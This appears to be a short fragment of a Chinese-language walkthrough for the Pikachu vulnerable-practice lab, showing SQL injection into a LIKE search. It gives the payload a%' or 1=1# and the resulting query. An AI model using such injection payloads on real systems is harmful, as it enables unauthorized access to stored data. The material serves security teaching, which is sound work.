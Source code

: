 **sql语句**

```sql
select from 表名 where username like '%a%';
```

构造闭合`a%' or 1=1#`    `#号在数据库中表示注释`

```sql
select from 表名 where username like '%a%' or 1=1#%';
```

![image-20230812172726336](./Pikachu%E9%9D%B6%E5%9C%BA.assets/image-20230812172726336.png)
